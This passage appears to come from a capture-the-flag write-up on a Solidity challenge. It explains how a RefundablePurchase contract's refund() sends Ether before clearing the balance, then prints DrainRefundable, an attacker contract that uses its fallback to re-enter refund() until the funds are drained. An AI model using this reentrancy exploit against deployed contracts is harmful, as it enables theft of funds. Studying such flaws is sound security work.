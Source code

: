 ```
     */
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

}
```

As the isComplete() function says, we must somehow completely drain the initial balance with which the contract is deployed.

Analysing the contract we see that any balance received is processed in the fallback function and then added to our refund amount variable, which is mapped to our address (**`msg.sender`**).
Afterward we can either confirm the balance sent (**`completePurchase()`**) or get it back (**`refund()`**).

Examining the refund() function in particular we see there's a vulnerability we can exploit.

```
/** Refunds sent Ether
*/
function refund() public {
    require(refunds[msg.sender] > 0);
    uint256 amount = refunds[msg.sender];
    msg.sender.call.value(amount)("");
    refunds[msg.sender] = 0;
    emit Refund(msg.sender, amount);
}
```

There's a combination of `msg.sender.call.value(amount)("");` that does not take into account the gas limitation, and the reset of refunds that occurs only after the transaction has been processed. In this situation we can make a so-called Reentrancy Attack.

Let's create another smart contract that interacts with the deployed RefundablePurchase one (hereinafter referred to as 'main contract').
We'll need to write a function that receives balance, sends it to the main contract and then claim it back calling **`refund()`**.
To complete the exploit, only remains to create a fallback function that once again calls the **`refund()`** method.

The fallback function is going to be triggered when in the main contract the balance is sent back through `msg.sender.call.value(amount)("");`. This is where the reentrancy attack occurs because there's a loop that repeats until the balance is drained. One implementation could be as follows:

```
pragma solidity ^0.4.24;

import "./RefundablePurchase.sol";

contract DrainRefundable {
  RefundablePurchase public atAddress;

  constructor (address deploymentAddress) public {
    atAddress = RefundablePurchase(deploymentAddress);
  }

  function () public payable {
    if (address(atAddress).balance >= msg.value) {
      atAddress.refund();
    }
  }

  function drain() public payable {
    address(atAddress).call.value(msg.value)();
    atAddress.refund();
  }
```